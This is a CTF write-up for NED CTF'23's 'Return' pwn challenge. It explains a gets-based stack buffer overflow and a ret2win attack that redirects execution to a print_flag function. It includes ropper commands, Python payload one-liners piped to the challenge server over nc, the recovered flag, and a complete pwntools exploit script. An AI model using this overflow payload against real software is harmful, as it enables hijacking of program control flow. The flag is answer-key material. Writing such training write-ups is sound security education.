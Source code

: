 ```yaml
---
title: NED CTF'23 - Pwn - Return
date: '2023-07-03'
tags: ['pwn', 'nedctf', 'buffer-overflow', 'ret2win']
draft: false
summary: A simple x64 ret2win challenge.
---
```


## Challenge Description

Navigate the maze of memory and claim your prize.

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9002
```

![chal-info](/static/writeups/nedctf/pwn/return0.png)

## Solution

Downloading the `return.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/return1.png)

The `file` security checks on the binary are as follows

![file](/static/writeups/nedctf/pwn/return4.png)

Let's run the `return` binary to check what it does

![run](/static/writeups/nedctf/pwn/return2.png)

Okay, let's disassemble and check the functions inside ghidra

![functions](/static/writeups/nedctf/pwn/return3.png)

The disassembled main function is as follows

```c
undefined8 main(void) {
  char local_108 [256];

  banner();
  printf("\n\n\nMay I ask what your name is? ");
  gets(local_108);
  printf("Good luck %s!\n",local_108);
  return 0;
}
```

Well, again `gets`, and this time the buffer is `256`. The other function that is of interest is `print_flag`

```c
void print_flag(void) {
  int iVar1;
  FILE *__stream;

  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: could not open file.");
  }
  else {
    puts("Contents of flag.txt:");
    while( true ) {
      iVar1 = fgetc(__stream);
      if ((char)iVar1 == -1) break;
      putchar((int)(char)iVar1);
    }
    fclose(__stream);
  }
  return;
}
```

Now, this function simply opens the `flag.txt` file and prints it's contents.

### Exploitation

So, we have a buffer overflow vulnerability, and we have a function that prints the flag. We can simply overwrite the return address of the `main` function with the address of `print_flag` function. Let's check the address of `print_flag` function. For that, we'll use my [script](https://gist.github.com/TheFlash2k/198bb805b3591e27b9bf9fc17bee4c4a)

![gadgets](/static/writeups/nedctf/pwn/return6.png)

In x64, we also need to provide a `ret` gadget to ensure that the program doesn't crash. Let's check the `ret` gadget address as well. We will use [ropper](https://github.com/sashs/Ropper) for that

```bash
ropper -f return --search "ret"
```

![gadgets](/static/writeups/nedctf/pwn/return5.png)

Now, since we have both values, we can craft a simple payload, which will be as follows

```md
[padding] + [ret gadget] + [print_flag address]
```

The padding will be `256` bytes to fully-fill the buffer, the ret gadget will be next to accumlate the buffer till RIP overwrite so that the function returns successfully and the print_flag address will be stored on the RIP. Let's craft the payload. But first, we'll `p64` the value of ret gadget:

```bash
$ python3 -c 'import pwn; print(pwn.p64(0x000000000040101a))'
b'\x1a\x10@\x00\x00\x00\x00\x00'
```

So, the payload now becomes:

```bash
python -c 'print "A" * 256 + "\x1a\x10@\x00\x00\x00\x00\x00" + "\xf6\x11@\x00\x00\x00\x00\x00"' | ./return
```

![flag](/static/writeups/nedctf/pwn/return7.png)

We can see that we got the flag, let's pipe the output to `nc` to get the flag remotely

```bash
python -c 'print "A" * 256 + "\x1a\x10@\x00\x00\x00\x00\x00" + "\xf6\x11@\x00\x00\x00\x00\x00"' | nc 159.223.192.150 9002
```

![flag](/static/writeups/nedctf/pwn/return8.png)

We got the flag!

```md
Flag: NCC{r3t_2_w1ns_4r3_fuN}
```

Now, let's a write a simple `exploit.py` for this

```python:exploit.py
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = "./return"
elf = context.binary = ELF(_bin)
rop = ROP(elf)

if len(sys.argv) == 2 and sys.argv[1].lower() == "remote":
	io = remote('159.223.192.150', 9002)
else:
	io = process(_bin)

io.recv()

payload = flat(
	[
		b"A" * 256,
		rop.ret.address,
		elf.sym.print_flag,
		b"\n"
	]
)

io.sendline(payload)
buf = io.recv().decode('latin-1')
print(buf)
```

![flag](/static/writeups/nedctf/pwn/return9.png)
